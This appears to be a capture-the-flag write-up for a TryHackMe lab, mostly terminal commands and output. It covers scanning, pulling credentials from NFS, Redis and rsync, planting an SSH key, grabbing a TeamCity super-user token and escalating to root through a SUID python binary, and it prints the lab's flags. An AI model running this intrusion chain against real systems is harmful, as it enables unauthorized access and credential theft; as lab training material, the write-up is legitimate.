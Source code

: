 ┌──(mikey㉿kali)-[~/rabbit]
└─$ nmap -sC -sV -p 1-1000 10.10.40.193
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-17 20:07 IST

PORT    STATE    SERVICE     VERSION
6/tcp   filtered unknown
22/tcp  open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
111/tcp open     rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      38138/udp   mountd
|   100005  1,2,3      38319/tcp   mountd
|   100005  1,2,3      38570/udp6  mountd
|   100005  1,2,3      40475/tcp6  mountd
|   100021  1,3,4      37650/udp   nlockmgr
|   100021  1,3,4      38649/tcp   nlockmgr
|   100021  1,3,4      45825/tcp6  nlockmgr
|   100021  1,3,4      60521/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp open     rsync       (protocol version 31)

# sudo smbclient -L 10.10.21.154
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        shares          Disk      VulnNet Business Shares
        IPC$            IPC       IPC Service (vulnnet-internal server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            
                        
smb: \temp\> ls
  .                                   D        0  Sat Feb  6 17:15:10 2021
  ..                                  D        0  Tue Feb  2 14:50:09 2021
  services.txt                        N       38  Sat Feb  6 17:15:09 2021


We get our first flag in services.txt 
┌──(mikey㉿kali)-[~/rabbit]
└─$ cat services.txt
 THM{0a09d51e488f5fa105d8d866a497440a}
        
┌──(mikey㉿kali)-[~/rabbit]
└─$ sudo showmount -e 10.10.21.154
Export list for 10.10.238.66:
/opt/conf *
    
┌──(mikey㉿kali)-[~/rabbit]
└─$ mount -t nfs 10.10.21.154:/opt  /tmp

            
┌──(mikey㉿kali)-[/tmp/opt/conf/redis]
└─$ cat redis.conf | grep -i password
requirepass "B65Hx562F@ggAZ@F"

┌──(mikey㉿kali)-[~/rabbit]
└─$ redis-cli -h 10.10.21.154 -a "B65Hx562F@ggAZ@F" 
10.10.21.154:6379> keys *
1) "internal flag"
2) "marketlist"
3) "tmp"
4) "int"
5) "authlist"
10.10.21.154:6379> get "internal flag"
"THM{ff8e518addbbddb74531a724236a8221}"



10.10.21.154:6379> get "authlist"
(error) WRONGTYPE Operation against a key holding the wrong kind of value
10.10.21.154:6379> lrange "authlist" 1 10
1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="

┌──(mikey㉿kali)[/rabbit]
└─$echo QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg== | base64 -d
Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v
┌──(mikey㉿kali)-[~/rabbit]
└─$ rsync rsync://rsync-connect@10.10.65.34/files/sys-internal/user.txt /rsync/ 
Password: 

┌──(root㉿kali)-[/rsync]
└─# ls
user.txt
                                                                             
┌──(root㉿kali)-[/rsync]
└─# cat user.txt        
THM{da7c20696831f253e0afaca8b83c07ab}

┌──(mikey㉿kali)-[~/rabbit]
└─$ rsync authorized_keys rsync://rsync-connect@10.10.65.34/files/sys-internal/.ssh/ 
Password: 

┌──(root㉿kali)-[~mikey/internal]
└─# ssh -i rsa sys-internal@10.10.120.193 


sys-internal@vulnnet-internal:/TeamCity/conf$ ss -tulwn
Netid                    State                       Recv-Q                      Send-Q                                                 Local Address:Port                                            Peer Address:Port                     
                                      0.0.0.0:*                        
                                    0.0.0.0:*                        
                                              0.0.0.0:*                        
tcp                      LISTEN                      0                           1                                                 [::ffff:127.0.0.1]:8105                                                       *:*                        
tcp                      LISTEN                      0                           128                                                             [::]:41993                                                   [::]:*                        
tcp                      LISTEN                      0                           128                                                             [::]:55849                                                   [::]:*                        
tcp                      LISTEN                      0                           5                                                               [::]:873                                                     [::]:*                        
tcp                      LISTEN                      0                           128                                                            [::1]:6379                                                    [::]:*                        
tcp                      LISTEN                      0                           64                                                              [::]:41611                                                   [::]:*                        
tcp                      LISTEN                      0                           50                                                              [::]:139                                                     [::]:*                        
tcp                      LISTEN                      0                           100                                               [::ffff:127.0.0.1]:8111             
![](https://i.imgur.com/F5NJy36.png)

But it is not readable the only readable file is catalina so searching token inside it



![](https://i.imgur.com/ul3P4MG.png)
sys-internal@vulnnet-internal:/TeamCity/logs$ cat catalina.out | grep -i token
[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 3782562599667957776 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 5812627377764625872 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 1844220135994601530 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 1844220135994601530 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 1844220135994601530 (use empty username with the token as the password to access the server)




![](https://i.imgur.com/vn71jk3.png)

![](https://i.imgur.com/rlPv2Zl.png)
i set suid on python and using gtfobins i execute command 
to get root access.

![](https://i.imgur.com/Y2OS2cC.png)



bash-4.4# cat root.txt
THM{e8996faea46df09dba5676dd271c60bd}
          
                                            
